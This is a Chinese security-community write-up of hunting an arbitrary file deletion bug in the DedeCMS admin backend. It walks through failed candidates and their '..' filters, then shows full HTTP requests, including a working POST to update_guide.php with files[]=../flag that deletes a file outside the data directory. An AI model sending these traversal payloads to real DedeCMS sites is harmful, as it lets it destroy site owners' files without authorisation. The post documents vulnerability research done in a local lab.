# 织梦管理系统任意文件删除从 0 开始的挖掘思路分析-先知社区

> **来源**: https://xz.aliyun.com/news/17060  
> **文章ID**: 17060

---

# 织梦管理系统任意文件删除从 0 开始的挖掘思路分析

## 前言

**文章中涉及的敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担。**

## 环境搭建

去官方下载源码



然后phpstudy 一把搭建就好了

后台的默认目录是dede



## 漏洞探寻

首先工具去审计一波

这里主要记录任意文件删除的挖掘过程，我们只看文件删除的结果

然后就是不断的赛选的过程



怎么说，真的很考验耐心吧，因为大部分都是不能控制的，只能一个一个看

可以看到这里是报了的，我们现在就是需要耐心的一个一个跟踪着去看

### 第一次寻找

比如图中的，定位到代码



这个就可以很明显的看到我们的文件名是不可以自己去控制的

### 第二次寻找



一样的我们看到代码

```
function DeleteFile($filename)
    {
        $filename = $this->baseDir.$this->activeDir."/$filename";
        if(is_file($filename))
        {
            @unlink($filename); $t="文件";
        }
        else
        {
            $t = "目录";
            if($this->allowDeleteDir==1)
            {
                $this->RmDirFiles($filename);
            } else
            {
                // 完善用户体验，by:sumic
                ShowMsg("系统禁止删除".$t."！","file_manage_main.php?activepath=".$this->activeDir);
                exit;
            }
            
        }
        ShowMsg("成功删除一个".$t."！","file_manage_main.php?activepath=".$this->activeDir);
        return 0;
    }
}
```

非常标准的文件删除

查找用法只找到了在 file\_manage\_control.php

```
else if($fmdo=="del")
{
    $fmm->DeleteFile($filename);
}
```

然后根据文件名和传入的参数

我们传个包

```
GET /dede/file_manage_control.php?fmdo=del&filename=1.php HTTP/1.1
Host: dedecms:5135
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dedecms:5135/dede/file_manage_main.php?activepath=
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=e80alpiloro32r9eusrtq4qeop; XDEBUG_SESSION=PHPSTORM; _csrf_name_f9024a86=1df71b6d569931e4f1239a4b311b8e7c; _csrf_name_f9024a861BH21ANI1AGD297L1FF21LN02BGE1DNG=cf5262466c3e7ef2; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=cdad88453fa752a4; DedeLoginTime=1740573286; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=7b495c04129af386; ENV_GOBACK_URL=%2Fdede%2Fmedia_main.php%3Fdopost%3Dfilemanager
Connection: keep-alive


```

你别说，还真是到了



然后跟进



发现成功了，默认目录就是我们的根目录

但是能不能造成任意文件删除呢?

比如删除本机文件

在www目录放一个flag文件

然后我们重新传入payload

```
GET /dede/file_manage_control.php?fmdo=del&filename=../../../flag&activepath= HTTP/1.1
Host: dedecms:5135
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dedecms:5135/dede/file_manage_main.php?activepath=/uploads
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=e80alpiloro32r9eusrtq4qeop; XDEBUG_SESSION=PHPSTORM; _csrf_name_f9024a86=1df71b6d569931e4f1239a4b311b8e7c; _csrf_name_f9024a861BH21ANI1AGD297L1FF21LN02BGE1DNG=cf5262466c3e7ef2; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=cdad88453fa752a4; DedeLoginTime=1740573286; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=7b495c04129af386; ENV_GOBACK_URL=%2Fdede%2Fmedia_main.php%3Fdopost%3Dfilemanager
Connection: keep-alive


```

但是发现到我们的删除文件的位置的时候



并没有../

跟踪后发现了原因



这个正则匹配的话很难绕过

如果 filename 为 “./file.txt”，它将变为 “file.txt”。  
如果 $filename 是 “....//file.txt”，则为 “file.txt”。

然后想起我们还有一个目录的参数，先随便加上，看看怎么个事

但是发现也是有限制的

```
$activepath = str_replace("..", "", $activepath);
$activepath = preg_replace("#^\/{1,}#", "/", $activepath);
```

```
如果 $activepath 是 “../文件夹/../../folder/file“，在第一行 （str_replace） 之后，它将变为”/folder/folder/file”。
在第二行 （preg_replace） 之后，它将确保路径正好以一个斜杠开头，因此它将保持 “/folder/folder/file”。
```

所以最后也只好放弃

### 第三次寻找



我们定位代码



这里又是对我们的文件类型和..都做出了限制，导致无法利用

### 第四次寻找



我们跟进代码

```

if(!function_exists('TestExecuteable'))
{
    // 检查是否具目录可执行
    function TestExecuteable($d='.', $siteuRL='', $rootDir='') {
        $testStr = '<'.chr(0x3F).'p'.chr(hexdec(68)).chr(112)."
\r";
        $filename = md5($d).'.php';
        $testStr .= 'function test(){ echo md5(\''.$d.'\');}'."
\rtest();
\r";
        $testStr .= chr(0x3F).'>';
        $reval = false;
        if(empty($rootDir)) $rootDir = DEDEROOT;
        if (TestWriteable($d)) 
        {
            @file_put_contents($d.'/'.$filename, $testStr);
            $remoteUrl = $siteuRL.'/'.str_replace($rootDir, '', str_replace("\", '/',realpath($d))).'/'.$filename;
            $tempStr = @PostHost($remoteUrl);

            $reval = (md5($d) == trim($tempStr))? true : false;
            unlink($d.'/'.$filename);
            return $reval;
        } else
        {
            return -1;
        }
    }
}

```

可惜的是文件名我们还是不能控制，是md5 编码后的

## 成功寻找

我们再次寻找



跟踪代码

```
else if($dopost=='apply')
{
    $cacheFiles = DEDEDATA.'/cache/updatetmp.inc';

    
    if(empty($step))
    {
        $truefile = DEDEDATA.'/'.$tmpdir.'/sql.txt';
        $fp = fopen($truefile, 'r');
        $sql = @fread($fp, filesize($truefile));
        fclose($fp);
        if(!empty($sql))
        {
            $mysql_version = $dsql->GetVersion(true);
            
            $sql = preg_replace('#ENGINE=MyISAM#i', 'TYPE=MyISAM', $sql);
            $sql41tmp = 'ENGINE=MyISAM DEFAULT CHARSET='.$cfg_db_language;
            if($mysql_version >= 4.1) 
            {
                $sql = preg_replace('#TYPE=MyISAM#i', $sql41tmp, $sql);
            }
            
            $sqls = explode(";\r
", $sql);
            foreach($sqls as $sql)
            {
                if(trim($sql)!='') 
                {
                    $dsql->ExecuteNoneQuery(trim($sql));
                }
            }
        }
        ShowMsg("完成数据库更新，现在开始复制文件。","update_guide.php?dopost=apply&step=1");
        exit();
    }
    else
    {
        $sDir = DEDEDATA."/$tmpdir";
        $tDir = DEDEROOT;
        
        $badcp = 0;
        $adminDir = preg_replace("#(.*)[\/\\]#", "", dirname(__FILE__));
        
        if(isset($files) && is_array($files))
        {
            foreach($files as $f)
            {
                if(preg_match('#^dede#', $f)) 
                {
                    $tf = preg_replace('#^dede#', $adminDir, $f);
                }
                else {
                    $tf = $f;
                }
                if(file_exists($sDir.'/'.$f))
                {
                    $rs = @copy($sDir.'/'.$f, $tDir.'/'.$tf);
                    if($rs) {
                        unlink($sDir.'/'.$f);
                    }
                    else {
                        $badcp++;
                    }
                }
            }
        }
        
        $fp = fopen($verLockFile,'w');
        fwrite($fp,$vtime);
        fclose($fp);
        
        $badmsg = '！';
        if($badcp > 0)
        {
            $badmsg = "，其中失败 {$badcp} 个文件，<br />请从临时目录[../data/{$tmpdir}]中取出这几个文件手动升级。";
        }
        
        ShowMsg("成功完成升级{$badmsg}","javascript:;");
        exit();
    }
}
```

跟踪删除的逻辑

我们需要控制$files

先随便尝试尝试

```
POST /dede/update_guide.php HTTP/1.1
Host: dedecms:5135
Content-Length: 41
Cache-Control: max-age=0
Origin: http://dedecms:5135
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dedecms:5135/dede/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=e80alpiloro32r9eusrtq4qeop; XDEBUG_SESSION=PHPSTORM; _csrf_name_f9024a86=1df71b6d569931e4f1239a4b311b8e7c; _csrf_name_f9024a861BH21ANI1AGD297L1FF21LN02BGE1DNG=cf5262466c3e7ef2; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=cdad88453fa752a4; DedeLoginTime=1740573286; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=7b495c04129af386
Connection: keep-alive

dopost=apply&files%5B%5D=..%2Fflag&step=1
```

然后我们调试观察



这里$tmpdir 是空的，因为赋值的过程是在



而不会进入这个方法，所以为空

所以基础目录就是

D:/phpstudy\_pro/WWW/DedeCMS-V5.7.115/uploads/data/

然后因为进入到我们的if 分支需要我们传入的是一个数组

所以我们传入了

```
files[]=../flag
```

然后删除还需要我们的文件存在，所以修改一下payload



然后再次查看文件

发现原本本机目录下的文件已经被删除了，成功实现了任意文件删除
